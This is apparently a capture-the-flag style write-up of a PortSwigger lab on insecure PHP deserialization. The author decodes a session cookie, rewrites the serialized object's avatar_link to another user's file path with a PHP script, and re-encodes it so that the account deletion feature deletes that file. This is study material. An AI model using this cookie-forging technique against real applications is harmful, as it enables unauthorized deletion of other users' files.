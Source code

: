 # Using application functionality to exploit insecure deserialization | Jan 10, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization), you'll learn: Using application functionality to exploit insecure deserialization! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063411.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063420.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110063443.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5bnVwM2ZhOGE2djJ6MmVrYmtqbnIzMDdmdDQxdTlmaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=
```

In here, we see the last character of this session cookie is `=`, which is a base64 padding character.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ5bnVwM2ZhOGE2djJ6MmVrYmtqbnIzMDdmdDQxdTlmaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=' | base64 -d
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ynup3fa8a6v2z2ekbkjnr307ft41u9fh";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

It's a PHP serialized object data!

In previous labs, we found that we can manipulate the PHP serialized object.

**Let's take a closer look to the `avatar_link` attribute:**
```php
s:11:"avatar_link";s:19:"users/wiener/avatar"
```

The `avatar_link` attribute is 11 characters long, and it's value is `users/wiener/avatar`.

But before we modify that value, let's poke around the web application.

**In the "My Account" page, we can delete our account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064055.png)

Let's try to delete it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064223.png)

When we clicked the "Delete account" button, it'll send a POST request to `/my-account/delete`.

Hmm... It also seems like our avatar has been deleted.

**Armed with above information, we can modify the `avatar_link` attribute value to `/home/carlos/morale.txt`. By doing that, we might able to delete that file!**

Let's login to our backup account:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064500.png)

**New PHP serialized object:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImFlMXB1c2Frd3Vtc2FscjRtZ3N1emprcHAycTJjeDBoIjtzOjExOiJhdmF0YXJfbGluayI7czoxODoidXNlcnMvZ3JlZ2cvYXZhdGFyIjt9' | base64 -d
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ae1pusakwumsalr4mgsuzjkpp2q2cx0h";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

```php
<?php
    $serializedObject = 'O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ae1pusakwumsalr4mgsuzjkpp2q2cx0h";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}';

    $deserializedObject = unserialize($serializedObject);
    echo "[+] Deserialized: \n";
    var_dump($deserializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Deserialized: 
object(__PHP_Incomplete_Class)#1 (4) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(5) "gregg"
  ["access_token"]=>
  string(32) "ae1pusakwumsalr4mgsuzjkpp2q2cx0h"
  ["avatar_link"]=>
  string(23) "/home/carlos/morale.txt"
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImFlMXB1c2Frd3Vtc2FscjRtZ3N1emprcHAycTJjeDBoIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

**Then, copy that base64 encoded string and paste it to the session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064806.png)

**Refresh the page, and click "Delete account":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064835.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-3/images/Pasted%20image%2020230110064847.png)

Nice!

# What we've learned:

1. Using application functionality to exploit insecure deserialization